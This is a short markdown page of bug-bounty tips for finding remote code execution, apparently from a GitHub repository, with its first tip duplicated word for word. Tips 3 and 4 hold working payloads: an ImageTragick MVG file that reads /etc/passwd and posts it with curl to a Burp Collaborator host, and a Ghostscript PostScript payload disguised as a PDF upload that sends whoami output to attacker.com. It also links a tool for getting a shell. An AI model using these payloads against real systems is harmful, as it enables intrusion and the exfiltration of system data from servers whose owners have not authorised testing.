 #                                       Finding RCE: Bug bounty Tips

## TIP-1

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
    
## TIP-2 

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
  
  
## TIP-3 

    Recon to RCE:
    Google "upload" site:”target" -> upload form -> ImageTragick MVG -> RCE

    PoC:
    push graphic-context viewbox 0 0 200 200 fill 'url(https://example.123 "|curl -d "@/etc/passwd" -X POST https://xxx.burpcollaborator.net/test1")' pop graphic-context
    

   (https://github.com/vishwaraj101/imagetragick)[This Tool imgetragick get shell]
    
## TIP-4 

   [RCE on PDF upload:](https://twitter.com/huntmost/status/1192670565963911169)

    Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
    Content-Type: application/pdf

    %!PS
    currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
    .putdeviceparams
    quit
